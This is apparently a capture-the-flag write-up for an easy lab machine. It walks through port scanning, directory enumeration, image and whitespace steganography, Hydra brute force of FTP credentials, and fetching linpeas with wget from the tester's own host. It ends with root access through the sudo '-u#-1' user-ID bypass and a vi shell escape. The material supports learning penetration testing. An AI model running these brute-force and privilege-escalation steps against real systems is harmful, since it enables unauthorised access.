








---

---
---

### Challenge propertie(s) :
- ##### Difficulty : easy
- ##### Techniques : scan, enumeration, steganalysis, brute force by dictionary, service authentication, privilege escalation enumeration.
- ##### tools : nmap, gobuster, zsteg, hydra, cyberchef(and other decode tools), linpeas 
- ###### tools used but output can't be exploited :  steghide

### Challenge steps : 

#### Part 1 : user.txt

1. First, a nmap scan to map the network, 3 interesting opened ports :
   
I try to connect as anonymous on ftp service, blank password on ssh etc to test if a very easy vulnerability is available. After, this option is not possible , I decided to check the http website.

2. Then, I enumerated website directories with gobuster with common.txt , a basic wordlist to enumerate basic website directories.
several path get 403 status that mean I can't access , but assets is really attractive, so I go to check assets available on this page.
- I checked the useless 5min video.
- and in the style.css , a commentary says that :  
	`/* Nice to see someone checking the stylesheets
    `` Take a look at the page: /l3_B4n4N13r_D3s_M0nT4gN3s.php/`

2. In going to this page , It redirects me to the 5min youtube video. But in doing a curl of this page : 
`curl -I http://10.10.0.15/l3_B4n4N13r_D3s_M0nT4gN3s.php` 
It shows me a new page `/L3s_Fru1ts_s0nt_c0NNus_Gen3raL3m3nt_s0Us_l3_N0m_D3_B4N4n3` with a png asset.

I download it and instantly inspect metadatas with exif , but nothing interesting. In visiting this website `https://www.aperisolve.com/wiki/tools/` I have read tools such as steghide etc to extract hidden datas in an image, but couldn't work for a png one. 
I kept search for an image tool extracting hidden datas . I have found zsteg `https://www.aperisolve.com/wiki/tools/zsteg` 

4. In giving me FTP username and a list of passwords, it forced me to brute force FTP service with these creds:

5.  I get Valerian's creds in FTP, after checked files with `dir` 

6. `cat Valerian\'s_Creds.txt` in my workspace. There is a big bloc of whitespace that catches my attention. On internet I found something which explains white spaces steganography : spaces can be replace by 0 , and tabulations by 1. So I went on `https://cyberchef.org`and did this recipe and it give me a binary output. Then I transformed this binary output into ASCII one and I got username "Valerian" that we already knew thanks to the txt and the password.

7. Now I could connect to Valerian ssh. No user.txt found on Valerian, and I couldn't connect to Gabriel ssh (I discovered it). So I launch a LinPeas on Valerian system with `valerian@le_bananier_des_montagnes:/tmp$ wget http://10.8.1.8:8000/linpeas.sh`
	A long Linpeas output that I read, and I found a file inside a folder named "s3cr3t" that remind me the message when we connect to valerian.
	

8. the message give me the password for gabriel user and I connect to it. With `ls` and `cat` command we got `user.txt` flag.

#### Part 2 : Root.txt

 
 A note.txt inside gabriel home directory, telling me that a specific package is old. 
On this website `https://computingforgeeks.com/linux-privilege-escalation-guide-kali/` I found `sudo -l` explaining which command the user can do with sudo.
	
	`gabriel@le_bananier_des_montagnes:~$ sudo -l
	`User gabriel may run the following commands on le_bananier_des_montagnes:`
	`(ALL, !root) NOPASSWD: /usr/bin/vi /home/gabriel/user.txt`
    
-> `sudo -u#-1 /usr/bin/vi /home/gabriel/user.txt` : this command opened vi with root privilege as we have seen before. 
Then , we `:set shell=/bin/bash` on vim and we `:shell`. And now we have root access.

After getting access, a simple `find / -name "root.txt` to get the path of the file and `cat` command to get the flag.
